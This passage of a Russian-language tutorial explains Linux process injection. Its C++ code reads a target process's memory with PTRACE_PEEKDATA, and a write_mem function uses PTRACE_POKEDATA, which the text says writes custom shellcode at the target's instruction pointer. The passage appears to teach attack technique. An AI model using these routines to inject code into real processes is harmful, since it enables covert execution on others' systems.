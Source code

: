 Затем читаем полные блоки размером `sizeof(long)`:     

```cpp
int i = 0;
while (i < len / sizeof(long)) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
  i++;
}
```

Как видите, здесь мы читаем `long` (обычно `8 байт` на `64-битных` системах) из памяти целевого процесса по определенному адресу. Затем считанные данные копируются в `buffer` с помощью `memcpy`. Это продолжается до тех пор, пока не будут прочитаны все полные блоки `sizeof(long)`.     

Затем обрабатываем оставшиеся байты:     

```cpp
int remaining = len % sizeof(long);
if (remaining) {
  chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
  memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
}
```

Логика проста: если длина (`len`) не является кратной `sizeof(long)`, могут остаться лишние байты для чтения. Функция обрабатывает эти оставшиеся байты, читая еще один полный `long` из памяти и копируя только необходимое количество байтов в буфер.     

Таким образом, весь блок памяти (`len` байтов) из целевого процесса, начиная с `addr`, теперь хранится в `buffer`.      

С помощью `PTRACE_POKEDATA` мы внедряем собственный shellcode в память целевого процесса по адресу `RIP`.     

```cpp
// запись памяти в целевой процесс
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), remaining);
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
  }
}
```
